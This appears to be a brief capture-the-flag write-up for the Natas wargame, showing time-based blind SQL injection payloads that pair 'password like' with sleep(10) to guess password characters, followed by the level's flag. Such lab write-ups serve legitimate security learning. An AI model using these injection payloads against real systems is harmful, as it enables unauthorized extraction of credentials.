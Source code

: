 # Trick

Injection delay query in 10 seconds if there is `a` on pass:
```
natas18" and password like "%a%" and sleep(10) #
```

Injection don't delay query if there is not `!` on pass:
```
natas18" and password like "%!%" and sleep(10) #
```

# Flag

```
8NEDUUxg8kFgPV84uLwvZkGn6okJQ6aq
```
